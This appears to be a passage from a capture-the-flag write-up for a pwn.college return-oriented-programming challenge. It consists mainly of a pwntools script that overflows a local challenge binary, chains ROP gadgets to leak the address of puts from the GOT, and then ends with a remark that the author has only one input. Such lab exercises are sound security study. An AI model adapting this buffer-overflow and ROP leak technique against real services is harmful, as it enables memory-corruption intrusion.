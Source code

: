 ```python
from pwn import *


def bytes_to_hex(data):
  """Converts bytes to a hex  and reverses the byte order.

  Args:
    data: A byte string.

  Returns:
    A hex  with the byte order reversed.
  """
  return int(''.join(['{:02x}'.format(b) for b in reversed(data)]), 16)

context.log_level = 'debug'
offset = b'a'*88

puts_plt = p64(0x401110)
puts_got = p64(0x404028)


ret = p64(0x40101a)
poprax_ret          = p64(0x401c28)
poprdi_ret          = p64(0x401c60)
poprsi_ret          = p64(0x401c58)
poprdx_ret          = p64(0x401c38)
syscall = p64(0x401c30)

payload_leak = offset
payload_leak += poprdi_ret
payload_leak += puts_got
payload_leak += puts_plt

r = process('/challenge/babyrop_level5.0')
r.recvuntil(b'Return Oriented Programming!\n')
r.sendline(payload_leak)
r.recvuntil(b'Leaving!\n')
addr_puts_byte = r.recv(6)
addr_puts = bytes_to_hex(addr_puts_byte)
print(f"LEAKKKKKKKKKK {addr_puts_byte} : {hex(addr_puts)}")


r.interactive()
```

![image](img/level5/25.png)

#### Hmmm, however, I only have one input
